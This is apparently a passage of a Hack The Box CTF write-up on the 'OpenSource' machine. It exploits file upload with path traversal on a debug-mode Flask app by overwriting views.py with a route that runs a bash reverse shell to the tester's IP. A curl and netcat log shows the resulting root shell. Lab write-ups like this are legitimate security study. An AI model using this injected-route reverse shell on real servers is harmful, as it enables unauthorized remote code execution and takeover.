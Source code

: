 ```
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=33183b996874LANG=C.UTF-8GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696DPYTHON_VERSION=3.10.3PYTHON_PIP_VERSION=22.0.4PYTHON_SETUPTOOLS_VERSION=58.1.0PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/38e54e5de07c66e875c11a1ebbdb938854625dd8/public/get-pip.pyPYTHON_GET_PIP_SHA256=e235c437e5c7d7524fbce3880ca39b917a73dc565e0c813465b7a7a329bb279aPYTHONDONTWRITEBYTECODE=1MODE=PRODUCTIONFLASK_DEBUG=1HOME=/rootSUPERVISOR_ENABLED=1SUPERVISOR_PROCESS_NAME=flaskSUPERVISOR_GROUP_NAME=flaskWERKZEUG_SERVER_FD=3WERKZEUG_RUN_MAIN=true
```

>[!warning]
>Application is running in Debug mode, meaning that code can be altered at run-time without re-starting the web server!

Disclosed a secret when server errored out:

![OpenSource%20f45f07afdacd4cfaab930db6a8f3f493](../../zzz_res/attachments/OpenSource%20f45f07afdacd4cfaab930db6a8f3f493%206.png)

## Arbitrary File Upload + Path Traversal leading to code injection

Because the **file upload** feature was **vulnerable to path traversal** and the application was running in **debug mode**, it was possible to arbitrary overwrite application source code and **inject custom code** in order to perform code execution.

Exploit:

```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app

@app.route('/')
def index():
    return render_template('index.html')

...

@app.route('/maoutis')
def maoutis():
    os.system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.46/10099 0>&1'")
    return render_template('index.html')
```

Overwrote the existing **views.py:**

![OpenSource%20f45f07afdacd4cfaab930db6a8f3f493](../../zzz_res/attachments/OpenSource%20f45f07afdacd4cfaab930db6a8f3f493%207.png)

Obtained the reverse shell:

```bash
┌──(maoutis㉿kali)-[~/CTF/HTB/OpenSource/exploit]
└─$ curl http://10.129.68.116/maoutis

┌──(maoutis㉿kali)-[~/CTF/HTB/OpenSource/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.46] from (UNKNOWN) [10.129.68.116] 39222
/bin/sh: can't access tty; job control turned off
/app # id; hostname
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
5db59442dad1

```